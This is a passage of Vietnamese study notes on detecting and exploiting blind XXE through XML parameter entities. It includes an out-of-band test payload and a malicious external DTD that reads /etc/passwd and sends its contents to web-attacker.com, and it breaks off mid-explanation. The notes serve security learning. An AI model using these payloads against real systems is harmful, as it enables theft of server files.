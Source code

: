 - Cuộc tấn công XXE này khiến **máy chủ thực hiện một yêu cầu HTTP từ phía back-end tới URL đã chỉ định.**
Kẻ tấn công có thể **giám sát truy vấn DNS và yêu cầu HTTP** kết quả, và từ đó phát hiện rằng **cuộc tấn công XXE đã thành công.**

---

### ⚡ Phát hiện blind XXE bằng XML parameter entities

Đôi khi, **các cuộc tấn công XXE sử dụng regular entities bị chặn** do ứng dụng có kiểm tra đầu vào hoặc do parser XML đã được cấu hình an toàn hơn.  
Trong trường hợp này, bạn có thể thử dùng **XML parameter entities** thay thế.

### 📌 XML parameter entities là gì?

- Là một loại entity đặc biệt trong XML, **chỉ có thể được tham chiếu bên trong DTD**.
- Khác với regular entity:
  - Khi **khai báo**, tên entity có dấu **`%`** phía trước:

    ```xml
    <!ENTITY % myparameterentity "my parameter entity value" >
    ```

  - Khi **sử dụng**, cũng gọi bằng **`%`** thay vì `&`:

    ```xml
    %myparameterentity;
    ```


#### 📌 Ví dụ payload kiểm tra blind XXE (OOB)

```xml
<!DOCTYPE foo [
  <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com">
  %xxe;
]>
```

---

### ⚡ Exploiting blind XXE to exfiltrate data out-of-band

Việc phát hiện lỗ hổng **blind XXE** bằng kỹ thuật **ngoài băng (out-of-band)** là rất hữu ích, nhưng nó không thật sự chứng minh cách lỗ hổng này có thể bị khai thác.  
Điều mà kẻ tấn công thực sự muốn là **trích xuất dữ liệu nhạy cảm**.  

Điều này có thể thực hiện thông qua blind XXE bằng cách:
- Kẻ tấn công **lưu trữ một tệp DTD độc hại** trên hệ thống do họ kiểm soát
- Sau đó **gọi đến DTD bên ngoài đó từ trong payload XXE**

#### 📌 Ví dụ DTD độc hại để trích xuất nội dung `/etc/passwd`

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```
#### 📌 Các bước mà DTD độc hại thực hiện
